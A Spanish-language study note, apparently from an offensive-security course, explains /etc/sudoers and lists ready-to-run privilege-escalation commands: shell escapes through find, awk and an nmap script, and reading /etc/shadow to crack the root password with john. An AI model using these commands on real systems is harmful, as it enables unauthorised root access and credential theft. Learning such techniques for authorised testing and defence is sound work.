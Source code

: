 # Abusando de privilegios a nivel de Sudoers

Tags: #Linux #Sudoers #Escalada #Root #Privilegios 

El archivo **/etc/sudoers** es un archivo de configuración en sistemas Linux que se utiliza para controlar el acceso de los usuarios a las diferentes acciones que pueden realizar en el sistema. Este archivo contiene una lista de usuarios y grupos de usuarios que tienen permisos para realizar tareas de administración en el sistema.

El comando “**sudo**” permite a los usuarios ejecutar comandos como superusuario o como otro usuario con privilegios especiales. El archivo sudoers especifica qué usuarios pueden ejecutar qué comandos con sudo y con qué privilegios.

Abusar de los privilegios a nivel de sudoers es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a una cuenta con permisos de sudo en el archivo sudoers, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

El comando “**sudo -l**” es utilizado para listar los permisos de sudo de un usuario en particular. Al ejecutar este comando, se muestra una lista de los comandos que el usuario tiene permiso para ejecutar y bajo qué condiciones.

Para prevenir el abuso de privilegios a nivel de sudoers, se recomienda mantener los permisos adecuados en el archivo sudoers y limitar el número de usuarios con permisos de sudo. Además, es importante monitorear regularmente el archivo sudoers y buscar cambios inesperados o sospechosos en su contenido.

A continuación, se os comparte el recurso GTFOBINS el cual utilizamos en esta clase para detectar comandos que potencialmente puedan ser explotados para elevar nuestro privilegio de usuario:

- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)

## Sudoers 

```bash
❯ sudo -l    # Ejecutar el comando 'find' sin password
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/find
	
# Ejecutar el comando de la siguiente manera:
❯ sudo find . -exec /bin/sh \; -quit
❯ sudo awk 'BEGIN {system("/bin/sh")}' 
```

```bash
❯ sudo -l      # Ejecutar el comando 'nmap' siendo 'user2' sin passwd
	
	#  (user2) NOPASSWD: /usr/bin/nmap 

# Ejecutar el comando de la siguiente manera:
❯ echo 'os.execute("/bin/sh")' > script.nse     # Ejecutar el comando en el dir '/tmp/'
❯ sudo -u user2 nmap --script=/tmp/script.nse
```

```bash 
❯ sudo -l       # Cambiar de usuario sin password 

	#  (user1 : user2) NOPASSWD: /bin/bash 

# Ejecutar el comando de la siguiente manera:
❯ sudo -u user2 /bin/bash     
```

```bash 
❯ sudo -l       # Ejecutar el comando 'cat' sin password 

	#  (root) NOPASSWD: /bin/cat  

# Ejecutar el comando en la maquina vitima de la siguiente manera:
❯ sudo cat /etc/passwd        # Mirar el contenido para copiarlo a Kali en un archivo llamado 'passwd'
❯ sudo cat /etc/shadow        # Mirar el contenido para copiarlo a Kali en un archivo llamado 'shadow'

# En Kali 
❯ unshadow passwd shadow > pwd.txt  
❯ john pwd.txt -w=/usr/share/wordlists/john.lst   # Obtener la password del usuario 'root'
```